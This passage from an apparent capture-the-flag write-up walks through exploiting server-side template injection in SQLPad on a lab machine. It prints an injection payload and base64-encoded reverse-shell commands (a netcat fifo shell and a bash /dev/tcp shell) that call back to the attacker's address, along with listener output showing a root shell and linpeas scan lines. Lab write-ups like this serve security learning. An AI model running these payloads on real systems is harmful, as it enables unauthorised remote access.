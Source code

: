 ![test ssti sqlpad]({{ page.img }}_3_sqlpad_ssti_test.png)

Not the end of the world I will encode a payload with base64 and try to run it.

 {% raw %}
 ```
{{ process.mainModule.require('child_process').exec('echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxiYXNoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNTYgNzc3NyA+L3RtcC9m" | base64 -d | bash') }}
```
 {% endraw %}

Still not working for some reason, I decide to use that poc from earlier and run the script. 

```bash
python3 exploit.py -c "wget http://10.10.14.56:8081/ssti_test" http://sqlpad.sightless.htb 10.10.14.56
[SENDER] STARTING
```

```bash
httpserver 
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.178.80 - - [09/Sep/2024 23:45:52] code 404, message File not found
10.129.178.80 - - [09/Sep/2024 23:45:52] "GET /ssti_test HTTP/1.1" 404 -
10.129.178.80 - - [09/Sep/2024 23:45:52] code 404, message File not found
10.129.178.80 - - [09/Sep/2024 23:45:52] "GET /ssti_test HTTP/1.1" 404 -
```

Okay something I was doing was not correct. Perhaps the two types of quotes I was using broke the application logic. 

```bash
python3 exploit.py -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41Ni83Nzc3IDA+JjE= | base64 -d | bash" http://sqlpad.sightless.htb 10.10.14.56
[SENDER] STARTING
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.129.178.80 34916
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@c184118df0a6:/var/lib/sqlpad# id    
id
uid=0(root) gid=0(root) groups=0(root)
```

## /etc/shadow

The linpeas scan I ran found an interesting debug port active. I've seen these in other boxes and they are generally red herrings or rabbit holes. That said, this box is the rare exception to that as we will see in a moment. 

```bash
                 2874      bashlinpeas.sh
                 2873      sed-Es,gdm-password|gnome-keyring-daemon[0m|lightdm|vsftpd|apache2|sshd:,&,
                 2871      seds,knockd|splunk,&,
                 2870      sed-Es,jdwp|tmux |screen | inspect |--inspect[= ]|--inspect$|--inpect-brk|--remote-debugging-port,&,g
                 2869      seds,root,&,
                 2868      seds,root,&,
```
